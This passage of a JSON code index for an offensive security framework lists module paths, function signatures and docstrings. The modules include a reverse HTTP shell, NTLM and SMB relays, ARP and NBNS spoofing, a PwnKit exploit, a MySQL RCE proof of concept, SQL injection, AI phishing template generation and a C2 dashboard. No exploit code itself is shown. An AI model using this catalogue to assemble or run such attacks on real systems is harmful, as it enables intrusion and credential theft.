██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazyhoneypot.py", "kind": "module", "label": "lazyhoneypot.py", "language": "py", "sha256": "6de217c0da3175d2", "symbol_count": 15, "symbols": [{"kind": "function", "line": 34, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 52, "name": "setup_logging", "signature": "def setup_logging(log_file)"}, {"kind": "function", "line": 56, "name": "generate_rsa_key", "signature": "def generate_rsa_key(key_filename)"}, {"kind": "class", "line": 60, "name": "Server", "signature": "class Server(ServerInterface)"}, {"kind": "function", "line": 74, "name": "handle_connection", "signature": "def handle_connection(client_socket, host_key, commands_log, downloads_log, downloads_dir)"}, {"kind": "function", "line": 110, "name": "handle_file_download", "signature": "def handle_file_download(command, downloads_dir, downloads_log)"}, {"kind": "function", "line": 128, "name": "log_command", "signature": "def log_command(command, commands_log)"}, {"kind": "function", "line": 132, "name": "log_downloaded_file", "signature": "def log_downloaded_file(filename, url, downloads_log)"}, {"kind": "function", "line": 136, "name": "analyze_traffic", "signature": "def analyze_traffic()"}, {"kind": "function", "line": 147, "name": "alert_admin", "signature": "def alert_admin(message)"}, {"kind": "function", "line": 165, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 61, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 64, "name": "check_channel_request", "signature": "def check_channel_request(self, kind, chanid)"}, {"kind": "method", "line": 69, "name": "check_auth_password", "signature": "def check_auth_password(self, username, password)"}, {"kind": "function", "line": 137, "name": "process_packet", "signature": "def process_packet(packet)"}]}, {"id": "contrib/legacy/lazyhttpreverseshell.py", "kind": "module", "label": "lazyhttpreverseshell.py", "language": "py", "sha256": "7d0797ab8a1a37bb", "symbol_count": 10, "symbols": [{"kind": "function", "line": 14, "name": "encrypt", "signature": "def encrypt(data)"}, {"kind": "function", "line": 17, "name": "decrypt", "signature": "def decrypt(data)"}, {"kind": "function", "line": 20, "name": "compress", "signature": "def compress(data)"}, {"kind": "function", "line": 23, "name": "decompress", "signature": "def decompress(data)"}, {"kind": "function", "line": 26, "name": "reverse_http_shell_client", "signature": "def reverse_http_shell_client(lhost, rhost, rport)"}, {"kind": "function", "line": 50, "name": "reverse_http_shell_server", "signature": "def reverse_http_shell_server(lhost, lport)"}, {"kind": "function", "line": 88, "name": "parse_arguments", "signature": "def parse_arguments(args)"}, {"kind": "class", "line": 51, "name": "RequestHandler", "signature": "class RequestHandler(BaseHTTPRequestHandler)"}, {"kind": "method", "line": 52, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 65, "name": "do_POST", "signature": "def do_POST(self)"}]}, {"id": "contrib/legacy/lazykeygen.py", "kind": "module", "label": "lazykeygen.py", "language": "py", "sha256": "2b856efdcba29398", "symbol_count": 5, "symbols": [{"kind": "function", "line": 8, "name": "pad", "signature": "def pad(s)"}, {"kind": "function", "line": 11, "name": "encrypt", "signature": "def encrypt(plaintext, key)"}, {"kind": "function", "line": 17, "name": "decrypt", "signature": "def decrypt(ciphertext, key)"}, {"kind": "function", "line": 23, "name": "generate_key", "signature": "def generate_key(length)"}, {"kind": "function", "line": 26, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazylfi2rce.py", "kind": "module", "label": "lazylfi2rce.py", "language": "py", "sha256": "11d5478f1e2a13e7", "symbol_count": 4, "symbols": [{"kind": "function", "line": 29, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 35, "name": "check_lfi_success", "signature": "def check_lfi_success(response_text)"}, {"kind": "function", "line": 39, "name": "check_rfi_success", "signature": "def check_rfi_success(response_text)"}, {"kind": "function", "line": 43, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazyllmchat.py", "kind": "module", "label": "lazyllmchat.py", "language": "py", "sha256": "48c5511fb22bede3", "symbol_count": 30, "symbols": [{"kind": "class", "line": 22, "name": "LazyOwnShellBridge", "signature": "class LazyOwnShellBridge"}, {"kind": "class", "line": 104, "name": "SessionContextProvider", "signature": "class SessionContextProvider"}, {"kind": "class", "line": 123, "name": "PromptBuilder", "signature": "class PromptBuilder"}, {"kind": "class", "line": 163, "name": "LLMEngine", "signature": "class LLMEngine"}, {"kind": "class", "line": 198, "name": "LazyOwnPromptRenderer", "signature": "class LazyOwnPromptRenderer"}, {"kind": "class", "line": 234, "name": "LazyOwnLLMChat", "signature": "class LazyOwnLLMChat"}, {"kind": "function", "line": 309, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 25, "name": "__init__", "signature": "def __init__(self, script_path)"}, {"kind": "method", "line": 31, "name": "_load_shell", "signature": "def _load_shell(self)"}, {"kind": "method", "line": 65, "name": "execute", "signature": "def execute(self, command)"}, {"kind": "method", "line": 105, "name": "__init__", "signature": "def __init__(self, session_path)"}, {"kind": "method", "line": 108, "name": "get_last_lines", "signature": "def get_last_lines(self, count)"}, {"kind": "method", "line": 133, "name": "for_command_analysis", "signature": "def for_command_analysis(command, output, context, history)"}, {"kind": "method", "line": 149, "name": "for_direct_query", "signature": "def for_direct_query(query, context, history)"}, {"kind": "method", "line": 164, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Load the configured LLM backend through the central factory.\n\nReturns ``None`` silently when neither Groq nor Ollama is\nreachable so the chat UI can degrade gracefully instead of\ncrashing the operator shell.", "kind": "method", "line": 170, "name": "_load_model", "signature": "def _load_model(self)"}, {"kind": "method", "line": 179, "name": "is_ready", "signature": "def is_ready(self)"}, {"kind": "method", "line": 182, "name": "ask", "signature": "def ask(self, prompt)"}, {"kind": "method", "line": 194, "name": "get_history_text", "signature": "def get_history_text(self)"}, {"kind": "method", "line": 208, "name": "render", "signature": "def render(self)"}, {"kind": "method", "line": 223, "name": "banner", "signature": "def banner(self)"}, {"kind": "method", "line": 235, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 242, "name": "_get_context", "signature": "def _get_context(self)"}, {"kind": "method", "line": 245, "name": "_run_shell_command", "signature": "def _run_shell_command(self, command)"}, {"kind": "method", "line": 251, "name": "_run_system_command", "signature": "def _run_system_command(self, command)"}, {"kind": "method", "line": 263, "name": "_analyze", "signature": "def _analyze(self, command, output)"}, {"kind": "method", "line": 273, "name": "_direct_query", "signature": "def _direct_query(self, query)"}, {"kind": "method", "line": 280, "name": "run", "signature": "def run(self, initial_query)"}, {"kind": "function", "line": 70, "name": "target", "signature": "def target()"}, {"kind": "function", "line": 38, "name": "no_history_init", "signature": "def no_history_init(self_)"}]}, {"id": "contrib/legacy/lazylogpoisoning.py", "kind": "module", "label": "lazylogpoisoning.py", "language": "py", "sha256": "b27e648690f2aa86", "symbol_count": 3, "symbols": [{"kind": "function", "line": 39, "name": "ensure_http_prefix", "signature": "def ensure_http_prefix(url)"}, {"kind": "function", "line": 45, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 53, "name": "main", "signature": "def main()"}]}, {"doc": "MySQL / MariaDB / Percona -  Remote Root Code Execution / PrivEsc PoC Exploit (CVE-2016-6662) 0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)  For testing purposes only. Do no harm.  Discovered/Coded by:  Dawid Golunski http://legalhackers.com   This is a limited version of the PoC exploit. It only allows appending to existing mysql config files with weak permissions. See V) 1) section of the advisory for details on this vector.  Full PoC will be released at a later date, and will show how attackers could exploit the vulnerability on default installations of MySQL on systems with no writable my.cnf config files available.  The upcoming advisory CVE-2016-6663 will also make the exploitation trivial for certain low-privileged attackers that do not have FILE privilege.  See full advisory for details: https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html  Video PoC:", "id": "contrib/legacy/lazymariadb_rce_cve_2016-662.py", "kind": "module", "label": "lazymariadb_rce_cve_2016-662.py", "language": "py", "sha256": "96095659db968954", "symbol_count": 3, "symbols": [{"kind": "function", "line": 59, "name": "info", "signature": "def info(str)"}, {"kind": "function", "line": 63, "name": "errmsg", "signature": "def errmsg(str)"}, {"kind": "function", "line": 67, "name": "shutdown", "signature": "def shutdown(code)"}]}, {"id": "contrib/legacy/lazymidm.py", "kind": "module", "label": "lazymidm.py", "language": "py", "sha256": "3ed6f0483c74ac21", "symbol_count": 8, "symbols": [{"kind": "function", "line": 12, "name": "get_mac", "signature": "def get_mac(ip)"}, {"kind": "function", "line": 18, "name": "spoof", "signature": "def spoof(target_ip, spoof_ip)"}, {"kind": "function", "line": 27, "name": "restore", "signature": "def restore(target_ip, spoof_ip)"}, {"kind": "function", "line": 37, "name": "mitm", "signature": "def mitm(target_ip, gateway_ip)"}, {"kind": "function", "line": 50, "name": "start_sslstrip", "signature": "def start_sslstrip(port)"}, {"kind": "function", "line": 54, "name": "start_tcpdump", "signature": "def start_tcpdump(interface, output_file)"}, {"kind": "function", "line": 58, "name": "setup_monitor_mode", "signature": "def setup_monitor_mode(interface)"}, {"kind": "function", "line": 68, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazymitmap.py", "kind": "module", "label": "lazymitmap.py", "language": "py", "sha256": "496fc176e39ad51e", "symbol_count": 21, "symbols": [{"doc": "Run sudo argv list-form, no shell.", "kind": "function", "line": 14, "name": "_sudo_run", "signature": "def _sudo_run()"}, {"doc": "Validate network interface name.", "kind": "function", "line": 19, "name": "_validate_iface", "signature": "def _validate_iface(value, name)"}, {"kind": "function", "line": 45, "name": "print_header", "signature": "def print_header()"}, {"doc": "Write a file using sudo.", "kind": "function", "line": 49, "name": "run_cmd_write", "signature": "def run_cmd_write(cmd_args, s)"}, {"kind": "function", "line": 63, "name": "write_file", "signature": "def write_file(path, s)"}, {"doc": "Append to the file, don't overwrite.", "kind": "function", "line": 67, "name": "append_file", "signature": "def append_file(path, s)"}, {"doc": "Create directory with sudo if it does not exist.", "kind": "function", "line": 72, "name": "create_dir", "signature": "def create_dir(directory)"}, {"doc": "Set directory permissions with sudo.", "kind": "function", "line": 77, "name": "set_permissions", "signature": "def set_permissions(directory, permissions)"}, {"doc": "Install required dependencies.", "kind": "function", "line": 84, "name": "install_dependencies", "signature": "def install_dependencies()"}, {"doc": "Backup a given file.", "kind": "function", "line": 121, "name": "backup_file", "signature": "def backup_file(filepath)"}, {"doc": "Restore a backed-up file.", "kind": "function", "line": 128, "name": "restore_file", "signature": "def restore_file(filepath)"}, {"doc": "Restart a given service.", "kind": "function", "line": 138, "name": "restart_service", "signature": "def restart_service(service)"}, {"doc": "Flush iptables rules.", "kind": "function", "line": 145, "name": "flush_iptables", "signature": "def flush_iptables()"}, {"doc": "Setup NetworkManager configuration for the AP interface.", "kind": "function", "line": 153, "name": "setup_network_manager", "signature": "def setup_network_manager(ap_iface)"}, {"doc": "Configure dnsmasq based on SSLSTRIP usage.", "kind": "function", "line": 163, "name": "configure_dnsmasq", "signature": "def configure_dnsmasq(ap_iface, ap_ip_range_start, ap_ip_range_end, ap_ip_gateway, dns_ip_1, dns_ip_2, sslstrip)"}, {"doc": "Configure hostapd based on user input.", "kind": "function", "line": 195, "name": "configure_hostapd", "signature": "def configure_hostapd(ap_iface, ssid, channel, wpa_passphrase)"}, {"doc": "Setup iptables rules.", "kind": "function", "line": 228, "name": "setup_iptables", "signature": "def setup_iptables(ap_iface, ap_ip, net_iface)"}, {"doc": "Set speed limit for the clients.", "kind": "function", "line": 248, "name": "set_speed_limit", "signature": "def set_speed_limit(ap_iface, speed_up, speed_down)"}, {"doc": "Start necessary services based on user input.", "kind": "function", "line": 254, "name": "start_services", "signature": "def start_services(ap_iface, script_path, sslstrip, wireshark, driftnet, tshark)"}, {"doc": "Cleanup actions to restore system state.", "kind": "function", "line": 315, "name": "cleanup", "signature": "def cleanup()"}, {"kind": "function", "line": 324, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: exploit netbios  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazynetbios.py", "kind": "module", "label": "lazynetbios.py", "language": "py", "sha256": "2780d5c11be65e85", "symbol_count": 7, "symbols": [{"kind": "function", "line": 30, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 38, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 45, "name": "scan_netbios", "signature": "def scan_netbios(ip_range)"}, {"kind": "function", "line": 58, "name": "check_arp", "signature": "def check_arp(ip)"}, {"kind": "function", "line": 71, "name": "check_netbios", "signature": "def check_netbios(ip)"}, {"kind": "function", "line": 90, "name": "send_nbns_spoof", "signature": "def send_nbns_spoof(target_ip, target_name, spoof_ip, trans_id)"}, {"kind": "function", "line": 115, "name": "generate_ip_range", "signature": "def generate_ip_range(start_ip, end_ip)"}]}, {"id": "contrib/legacy/lazyntlrelayx.py", "kind": "module", "label": "lazyntlrelayx.py", "language": "py", "sha256": "ce382e216c82c8ec", "symbol_count": 2, "symbols": [{"kind": "function", "line": 5, "name": "parse_hash_file", "signature": "def parse_hash_file(file_path)"}, {"kind": "function", "line": 52, "name": "ntlm_relay", "signature": "def ntlm_relay(target_ip, credentials)"}]}, {"doc": "CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io Credits: Matthew Daley, Justin Gardner, Lee David Painter", "id": "contrib/legacy/lazyopenssh77enum2.py", "kind": "module", "label": "lazyopenssh77enum2.py", "language": "py", "sha256": "b80d19379e66fcb8", "symbol_count": 5, "symbols": [{"kind": "class", "line": 14, "name": "InvalidUsername", "signature": "class InvalidUsername(Exception)"}, {"kind": "function", "line": 19, "name": "add_boolean", "signature": "def add_boolean()"}, {"kind": "function", "line": 30, "name": "service_accept", "signature": "def service_accept()"}, {"kind": "function", "line": 36, "name": "invalid_username", "signature": "def invalid_username()"}, {"kind": "function", "line": 50, "name": "check_user", "signature": "def check_user(username)"}]}, {"doc": "main.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation Date: 09/06/2024 License: GPL v3  Description: Console assistant for generating dynamic YAML phishing templates using AI", "id": "contrib/legacy/lazyphishingai.py", "kind": "module", "label": "lazyphishingai.py", "language": "py", "sha256": "bbedbb4ef6b52573", "symbol_count": 12, "symbols": [{"kind": "function", "line": 28, "name": "clean_think", "signature": "def clean_think(texto)"}, {"kind": "function", "line": 31, "name": "clean_yaml", "signature": "def clean_yaml(texto)"}, {"kind": "function", "line": 37, "name": "truncate_message", "signature": "def truncate_message(message, max_chars)"}, {"kind": "function", "line": 42, "name": "configure_logging", "signature": "def configure_logging(debug)"}, {"kind": "function", "line": 46, "name": "create_complex_prompt", "signature": "def create_complex_prompt(base_prompt, history, knowledge_base)"}, {"kind": "function", "line": 101, "name": "load_knowledge_base", "signature": "def load_knowledge_base(file_path)"}, {"kind": "function", "line": 110, "name": "save_knowledge_base", "signature": "def save_knowledge_base(knowledge_base, file_path)"}, {"kind": "function", "line": 117, "name": "add_to_knowledge_base", "signature": "def add_to_knowledge_base(prompt, command, file_path)"}, {"kind": "function", "line": 122, "name": "get_relevant_knowledge", "signature": "def get_relevant_knowledge(prompt)"}, {"kind": "function", "line": 132, "name": "process_prompt_local_yaml", "signature": "def process_prompt_local_yaml(prompt, debug, mode, output_file)"}, {"kind": "function", "line": 192, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 155, "name": "generate", "signature": "def generate()"}]}, {"id": "contrib/legacy/lazyproxy.py", "kind": "module", "label": "lazyproxy.py", "language": "py", "sha256": "c1d064cba7c67995", "symbol_count": 9, "symbols": [{"kind": "function", "line": 40, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 47, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 52, "name": "hexdump", "signature": "def hexdump(src, length)"}, {"kind": "function", "line": 63, "name": "receive_from", "signature": "def receive_from(connection)"}, {"kind": "function", "line": 77, "name": "request_handler", "signature": "def request_handler(buffer)"}, {"kind": "function", "line": 82, "name": "response_handler", "signature": "def response_handler(buffer)"}, {"kind": "function", "line": 87, "name": "get_ip_from_url", "signature": "def get_ip_from_url(url)"}, {"kind": "function", "line": 104, "name": "handle_request", "signature": "def handle_request(client_socket, address)"}, {"kind": "function", "line": 183, "name": "start_proxy", "signature": "def start_proxy()"}]}, {"id": "contrib/legacy/lazypwn.py", "kind": "module", "label": "lazypwn.py", "language": "py", "sha256": "3b116f11a0acc76a", "symbol_count": 15, "symbols": [{"kind": "class", "line": 24, "name": "BinaryFinder", "signature": "class BinaryFinder"}, {"kind": "class", "line": 70, "name": "BinaryAttacker", "signature": "class BinaryAttacker"}, {"kind": "function", "line": 181, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 25, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 28, "name": "find_suid_binaries", "signature": "def find_suid_binaries(self)"}, {"kind": "method", "line": 36, "name": "find_capabilities_binaries", "signature": "def find_capabilities_binaries(self)"}, {"kind": "method", "line": 44, "name": "find_executable_binaries", "signature": "def find_executable_binaries(self)"}, {"kind": "method", "line": 52, "name": "find_specific_name_binaries", "signature": "def find_specific_name_binaries(self, names)"}, {"kind": "method", "line": 61, "name": "process_output", "signature": "def process_output(self, output)"}, {"kind": "method", "line": 67, "name": "get_found_binaries", "signature": "def get_found_binaries(self)"}, {"kind": "method", "line": 71, "name": "__init__", "signature": "def __init__(self, binary_path)"}, {"kind": "method", "line": 76, "name": "analyze_with_ltrace", "signature": "def analyze_with_ltrace(self)"}, {"kind": "method", "line": 83, "name": "extract_strings", "signature": "def extract_strings(self)"}, {"kind": "method", "line": 90, "name": "prepare_attack", "signature": "def prepare_attack(self)"}, {"kind": "method", "line": 170, "name": "exploit_with_pwntools", "signature": "def exploit_with_pwntools(self)"}]}, {"id": "contrib/legacy/lazypwnkit.py", "kind": "module", "label": "lazypwnkit.py", "language": "py", "sha256": "d2bd06faa51002e4", "symbol_count": 5, "symbols": [{"doc": "Elimina recursivamente un directorio y su contenido.", "kind": "function", "line": 8, "name": "rmrf", "signature": "def rmrf(path)"}, {"doc": "Crea el entorno necesario para el exploit.", "kind": "function", "line": 13, "name": "create_exploit_environment", "signature": "def create_exploit_environment()"}, {"doc": "Limpia el entorno creado para el exploit.", "kind": "function", "line": 31, "name": "cleanup_exploit_environment", "signature": "def cleanup_exploit_environment()"}, {"doc": "Ejecuta el exploit.", "kind": "function", "line": 37, "name": "execute_exploit", "signature": "def execute_exploit(cmd)"}, {"kind": "function", "line": 79, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazypyautogui.py", "kind": "module", "label": "lazypyautogui.py", "language": "py", "sha256": "bd706197e701e25e", "symbol_count": 0, "symbols": []}, {"id": "contrib/legacy/lazyreversentlmv2.py", "kind": "module", "label": "lazyreversentlmv2.py", "language": "py", "sha256": "fc22fa1a41382303", "symbol_count": 2, "symbols": [{"kind": "function", "line": 11, "name": "parse_hash_file", "signature": "def parse_hash_file(file_path)"}, {"kind": "function", "line": 58, "name": "reverse_shell", "signature": "def reverse_shell(target_ip, username, domain, lmhash, nthash, callback_ip, callback_port)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: search in gtofbins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazysearch.py", "kind": "module", "label": "lazysearch.py", "language": "py", "sha256": "34d643e530552639", "symbol_count": 3, "symbols": [{"kind": "function", "line": 29, "name": "highlight_term", "signature": "def highlight_term(text, term)"}, {"kind": "function", "line": 32, "name": "search_in_parquet", "signature": "def search_in_parquet(term, parquet_files)"}, {"kind": "function", "line": 44, "name": "main", "signature": "def main()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Asistente de investigacion por consola estilo GPT con Groq  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazysearch_bot.py", "kind": "module", "label": "lazysearch_bot.py", "language": "py", "sha256": "7c9608cbbf68a49a", "symbol_count": 13, "symbols": [{"kind": "function", "line": 59, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 65, "name": "show_help", "signature": "def show_help(message)"}, {"kind": "function", "line": 69, "name": "check_api_key", "signature": "def check_api_key()"}, {"kind": "function", "line": 75, "name": "configure_logging", "signature": "def configure_logging(debug)"}, {"kind": "function", "line": 79, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "function", "line": 86, "name": "create_complex_prompt", "signature": "def create_complex_prompt(base_prompt, history, knowledge_base, error_message)"}, {"kind": "function", "line": 109, "name": "execute_command", "signature": "def execute_command(command)"}, {"kind": "function", "line": 112, "name": "load_knowledge_base", "signature": "def load_knowledge_base(file_path)"}, {"kind": "function", "line": 118, "name": "save_knowledge_base", "signature": "def save_knowledge_base(knowledge_base, file_path)"}, {"kind": "function", "line": 122, "name": "add_to_knowledge_base", "signature": "def add_to_knowledge_base(prompt, command, file_path)"}, {"kind": "function", "line": 127, "name": "get_relevant_knowledge", "signature": "def get_relevant_knowledge(prompt)"}, {"kind": "function", "line": 135, "name": "transform_knowledge_base", "signature": "def transform_knowledge_base(client)"}, {"kind": "function", "line": 158, "name": "main", "signature": "def main()"}]}, {"id": "contrib/legacy/lazyseo.py", "kind": "module", "label": "lazyseo.py", "language": "py", "sha256": "697d7325e0e90d3b", "symbol_count": 9, "symbols": [{"kind": "class", "line": 14, "name": "Config", "signature": "class Config"}, {"kind": "function", "line": 23, "name": "load_payload", "signature": "def load_payload()"}, {"kind": "function", "line": 28, "name": "make_request", "signature": "def make_request(url, retries, timeout)"}, {"kind": "function", "line": 49, "name": "results", "signature": "def results(file)"}, {"kind": "function", "line": 57, "name": "crawl", "signature": "def crawl(url)"}, {"kind": "function", "line": 66, "name": "ffuf", "signature": "def ffuf()"}, {"kind": "function", "line": 76, "name": "analyze_seo", "signature": "def analyze_seo(url)"}, {"kind": "method", "line": 15, "name": "__init__", "signature": "def __init__(self, config_dict)"}, {"kind": "method", "line": 20, "name": "__getitem__", "signature": "def __getitem__(self, key)"}]}, {"id": "contrib/legacy/lazysmbrelay.py", "kind": "module", "label": "lazysmbrelay.py", "language": "py", "sha256": "54215e476c851b8c", "symbol_count": 7, "symbols": [{"kind": "function", "line": 15, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 27, "name": "start_smb_server", "signature": "def start_smb_server()"}, {"kind": "function", "line": 35, "name": "start_smb_relay", "signature": "def start_smb_relay(target, command)"}, {"kind": "class", "line": 41, "name": "CustomSMBRelayServer", "signature": "class CustomSMBRelayServer(SMBRelayServer)"}, {"kind": "method", "line": 42, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 46, "name": "handleData", "signature": "def handleData(self)"}, {"kind": "method", "line": 50, "name": "execute_remote_command", "signature": "def execute_remote_command(self)"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwnSniffer  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "contrib/legacy/lazysniff.py", "kind": "module", "label": "lazysniff.py", "language": "py", "sha256": "19704ef4e76b6270", "symbol_count": 11, "symbols": [{"kind": "function", "line": 41, "name": "check_sudo", "signature": "def check_sudo()"}, {"kind": "function", "line": 50, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 57, "name": "setup_curses", "signature": "def setup_curses()"}, {"kind": "function", "line": 66, "name": "restore_curses", "signature": "def restore_curses(stdscr)"}, {"kind": "function", "line": 73, "name": "show_banner", "signature": "def show_banner(stdscr, banner)"}, {"kind": "function", "line": 80, "name": "process_packet", "signature": "def process_packet(packet, packets, win_top, win_bottom)"}, {"kind": "function", "line": 90, "name": "analyze_packet", "signature": "def analyze_packet(packet)"}, {"kind": "function", "line": 112, "name": "capture_packets", "signature": "def capture_packets(interface, count, filter, pcap_file, packets, win_top, win_bottom)"}, {"kind": "function", "line": 118, "name": "main_curses", "signature": "def main_curses(stdscr, packets, interface, count, filter, pcap_file)"}, {"kind": "function", "line": 188, "name": "parse_arguments", "signature": "def parse_arguments()"}, {"kind": "function", "line": 197, "name": "main", "signature": "def main()"}]}, {"doc": "AUTHOR: jahman EDITED BY grisun0", "id": "contrib/legacy/lazysqli.py", "kind": "module", "label": "lazysqli.py", "language": "py", "sha256": "bf86c3085d137d97", "symbol_count": 4, "symbols": [{"kind": "function", "line": 13, "name": "send_payload", "signature": "def send_payload(payload, url, s, sql_time)"}, {"kind": "function", "line": 30, "name": "sqli_dichotomie", "signature": "def sqli_dichotomie(payload_brute, offset, url, s, sql_time)"}, {"kind": "function", "line": 51, "name": "sqli_thread", "signature": "def sqli_thread(url, db, table, col, sql_time, threads)"}, {"kind": "function", "line": 89, "name": "main", "signature": "def main(args)"}]}, {"id": "contrib/legacy/lazyssh.py", "kind": "module", "label": "lazyssh.py", "language": "py", "sha256": "44e019d76c5a6e08", "symbol_count": 1, "symbols": [{"kind": "function", "line": 13, "name": "execute", "signature": "def execute(hostname, port, command)"}]}, {"id": "contrib/legacy/lazyvsftp.py", "kind": "module", "label": "lazyvsftp.py", "language": "py", "sha256": "2ecaa9486d3e745b", "symbol_count": 3, "symbols": [{"kind": "function", "line": 7, "name": "connect", "signature": "def connect(host, port)"}, {"kind": "function", "line": 16, "name": "exploit", "signature": "def exploit(host, port)"}, {"kind": "function", "line": 61, "name": "handle_backdoor", "signature": "def handle_backdoor(s)"}]}, {"id": "contrib/legacy/lazywerkzeug.py", "kind": "module", "label": "lazywerkzeug.py", "language": "py", "sha256": "6de21437cd7e1d6c", "symbol_count": 0, "symbols": []}, {"id": "contrib/legacy/sql.py", "kind": "module", "label": "sql.py", "language": "py", "sha256": "66d40b7ac8c76615", "symbol_count": 3, "symbols": [{"kind": "function", "line": 8, "name": "def_handler", "signature": "def def_handler(sig, frame)"}, {"kind": "function", "line": 15, "name": "getUnicode", "signature": "def getUnicode(sqli)"}, {"kind": "function", "line": 22, "name": "makeRequest", "signature": "def makeRequest(sqli_modified)"}]}, {"doc": "Core primitives for the LazyOwn framework.  Stable, dependency-light building blocks shared by the CLI (``lazyown.py``), the C2 (``lazyc2.py``), the MCP server (``skills/lazyown_mcp.py``) and the autonomous skill stack. ``utils.py`` re-exports these symbols for backwards compatibility with legacy import paths.", "id": "core/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "5da9714897a1a44a", "symbol_count": 0, "symbols": []}, {"doc": "Tenant-bound API authorization for the LazyOwn C2 dashboard.  Provides API-key generation, storage, validation, and route-decorator enforcement that requires both a valid key AND tenant membership. Keys are hashed at rest with ``hashlib.sha256``; only the plaintext is returned once at creation time.  This module is self-contained and has zero dependencies beyond the Python standard library. It integrates with Flask via decorators and 